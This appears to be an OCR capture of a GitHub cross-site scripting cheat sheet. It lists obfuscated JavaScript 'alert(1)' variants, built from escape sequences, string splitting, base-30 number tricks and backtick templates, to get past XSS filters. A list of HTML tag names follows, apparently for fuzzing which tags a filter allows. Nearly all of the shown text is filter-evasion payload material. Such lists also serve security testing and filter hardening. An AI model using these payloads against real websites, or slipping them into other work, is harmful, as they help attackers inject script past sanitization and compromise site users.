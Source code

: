 ```
(alert)(1)
a=alert,a(1)
[1].find(alert)
top[“al”+”ert”](1)
top[/al/.source+/ert/.source](1)
al\u0065rt(1)
top[‘al\145rt’](1)
top[‘al\x65rt’](1)
top[8680439..toString(30)](1)
alert?.()
`${alert``}` (The payload should include leading and trailing backticks.)
(alert())
```

## All Posible Tags
```
a
a2
abbr
acronym
address
animate
animatemotion
animatetransform
applet
area
article
aside
audio
audio2
b
base
basefont
bdi
bdo
bgsound
big
blink
blockquote
body
br
button
canvas
caption
center
cite
code
col
colgroup
command
content
custom tags
data
datalist
dd
del
details
dfn
dialog
dir
div
dl
```